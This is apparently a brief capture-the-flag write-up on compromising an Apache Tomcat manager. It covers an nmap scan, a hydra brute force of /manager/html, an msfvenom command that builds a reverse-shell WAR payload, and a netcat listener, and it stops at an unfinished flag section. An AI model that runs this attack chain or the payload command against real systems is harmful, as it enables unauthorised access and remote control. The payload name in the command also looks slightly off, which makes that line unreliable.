





# Writeup
Using `nmap` to scan and get what port is open and web server.

After accessing to `/manager/html`, using `hydra` to brute force password 

Using `msfvenom` to create payload: `msfvenom -p windows/reverse_shell_tcp -LHOST {ip} -LPORT [port] -f war > payload.war`. Unpack file so we can see `.jsp` file.

Upload `war` file, access `http://{ip}:{port}/manager/html/{war}/{jsp}`, use `netcat` to listen and get reverse shell.

Flag's location

